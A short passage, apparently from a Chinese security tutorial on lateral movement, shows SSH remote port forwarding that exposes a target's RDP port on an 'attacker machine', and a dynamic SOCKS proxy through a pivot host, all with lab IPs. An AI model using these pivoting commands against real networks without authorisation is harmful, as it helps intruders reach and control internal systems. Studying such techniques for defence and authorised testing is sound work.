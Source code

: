 远程转发：

```plain
ssh -CfNg -R 2333(攻击机端口):192.168.44.128(目标机 ip):3389(目标端口) hackme@192.168.174.128(攻击机)
```

动态转发：其实就是建立一个 ssh 加密的 SOCKS 代理通道

```plain
ssh -CfNg -D 2333 lenovo@192.168.174.1(跳板机)
```

[![](assets/1709530725-32ad5097aaf51e33f9a2294be6078058.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301150849-8d8be1f2-d79a-1.png)

跳板机和目标机之间的流量是无加密的，直接 HTTP 传输

[![](assets/1709530725-1e13ab64328e3d895520479b0da9f60c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240301150903-959ce5bc-d79a-1.png)

